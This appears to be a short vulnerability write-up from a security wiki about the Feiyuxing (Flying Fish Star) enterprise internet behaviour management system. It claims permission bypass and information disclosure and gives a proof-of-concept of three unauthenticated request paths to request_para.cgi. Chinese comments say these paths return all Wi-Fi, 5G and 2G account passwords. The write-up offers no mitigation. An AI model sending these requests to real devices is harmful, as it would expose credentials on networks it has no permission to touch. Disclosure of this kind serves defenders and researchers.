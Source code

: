 # Feiyuxing Enterprise-level intelligent Internet behavior management system Permission bypass information leakage vulnerabilities

## Vulnerability Description

Feiyuxing Enterprise-level intelligent Internet behavior management system There are permission bypasses and information leakage vulnerabilities, and you can obtain administrator permissions and user passwords.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Flying Fish Star Enterprise-level intelligent Internet behavior management system</span>

## Network surveying and mapping



## Vulnerability reappears

Information leakage POC

```plain
/request_para.cgi?parameter=wifi_info 		 #获取ALL WIFI账号密码
/request_para.cgi?parameter=wifi_get_5g_host #获取5GWIFI账号密码
/request_para.cgi?parameter=wifi_get_2g_host #获取2GWIFI账号密码
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/fy-4.png)